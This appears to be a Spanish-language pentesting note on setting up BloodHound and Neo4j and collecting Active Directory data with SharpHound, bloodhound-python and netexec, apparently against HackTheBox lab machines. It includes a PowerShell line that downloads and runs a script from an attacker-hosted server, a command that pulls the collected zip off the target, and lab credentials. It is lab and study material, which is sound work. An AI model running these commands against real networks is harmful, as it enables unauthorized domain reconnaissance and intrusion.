










### Installation

```bash
sudo apt update -y && sudo apt install neo4j bloodhound
```

```bash
sudo neo4j console
```



http://localhost:7474/browser/



Las credenciales por defecto son: `neo4j:neo4j`. Nos solicitará cambiarlas nada más iniciar sesión.

Ahora abrimos **bloodhound** y logueamos con estas credenciales.




Dark mode



https://github.com/puckiestyle/powershell/blob/master/SharpHound.ps1

```bash
wget https://raw.githubusercontent.com/puckiestyle/powershell/master/SharpHound.ps1
```

Si estamos en kali conviene usar el collector que viene con el paquete para evitar problemas de compatibilidad:
```bash
cp /usr/lib/bloodhound/resources/app/Collectors/SharpHound.ps1 .
```

```bash
python3 -m http.server 80
```



```ps1
IEX(New-Object Net.WebClient).downloadString('http://10.10.14.65/SharpHound.ps1')
Invoke-BloodHound -CollectionMethod All
dir
```




También esta disponible un colector en formato ejecutable.

```
.\SharpHound.exe --collectionmethods All
```


```
download C:\Users\svc-alfresco\desktop\bh\20240806091241_BloodHound.zip data.zip
```








https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/bloodhound#sharphound


#### Recolectores

##### bloodhound-python
https://github.com/dirkjanm/BloodHound.py

```bash
bloodhound-python -d certified.htb -u judith.mader -p judith09 --disable-autogc -ns 10.10.11.41
```

##### netexec
```bash
nxc ldap certified.htb -u judith.mader -p judith09 --bloodhound --collection All --dns-server 10.10.11.41
```
